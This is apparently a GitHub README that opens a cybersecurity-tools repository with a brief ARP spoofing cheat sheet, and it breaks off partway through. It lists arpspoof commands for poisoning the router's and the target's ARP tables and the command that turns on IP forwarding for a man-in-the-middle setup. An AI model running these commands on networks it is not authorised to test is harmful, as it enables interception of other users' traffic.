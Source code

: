 # Cybersecurity-tools
A plethora of algorithms to automate basic cybersecurity tasks


# ARP SPOOFING.

1) Pretend to be the router.
    A) arp-a --> see your interface and router IP.
    A) arpspoof -i eth0 -t (router ip ) (target ip) --> Update arp table to tell router that I am target

2) Pretend to be the target.
    arpspoof -i eth0 -t (target ip ) (router ip) --> Update arp table to tell target that I am router

3) Port Forwarding 
    A) echo 1 > /proc/sys/net/ipv4/ip_forward 